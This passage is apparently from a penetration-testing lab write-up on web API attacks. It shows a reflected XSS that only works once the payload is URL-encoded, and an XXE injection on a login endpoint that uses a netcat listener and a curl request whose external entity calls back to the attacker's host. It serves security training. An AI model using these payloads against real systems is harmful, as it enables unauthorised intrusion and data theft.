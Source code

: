 Submit a basic script payload:

`<script>alert(document.domain)</script>`

Response:

`Cannot GET /api/download/<script>alert(document.domain)</script>`

The application encodes input → script not executed.

## URL-Encoded Payload

Encode payload once and try again:

`%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E`

Result: An alert box appears showing the IP address `10.129.144.21. ✅`

The API endpoint is vulnerable to XSS.




# XML External Entity (XXE) Injection

XXE vulnerabilities happen when user-supplied XML is not properly sanitized, allowing attackers to read internal files or perform other malicious actions. XXE can impact both web apps and APIs.

**Target API**

Target: `http://<TARGET IP>:3001`

We encounter an authentication page sending XML data.

**Example POST request to `/api/login`:**

<img width="373" height="212" alt="image" src="https://github.com/user-attachments/assets/9cc71a0a-6d2b-4fc0-9adc-7610446b0147" />

## Crafting an XXE Payload

Add a DOCTYPE to define an external entity:

<img width="680" height="213" alt="image" src="https://github.com/user-attachments/assets/da02d3d8-438a-438b-9011-bdf5f568a53d" />

`DOCTYPE` defines the XML structure.

`ENTITY` defines a variable (somename) pointing to an external resource (SYSTEM).

`&somename;` references the entity in the XML.

## Setting Up Listener

`nc -nlvp 4444`

## Sending the Exploit

`curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'`

Result: The target connects to your listener, confirming XXE vulnerability.
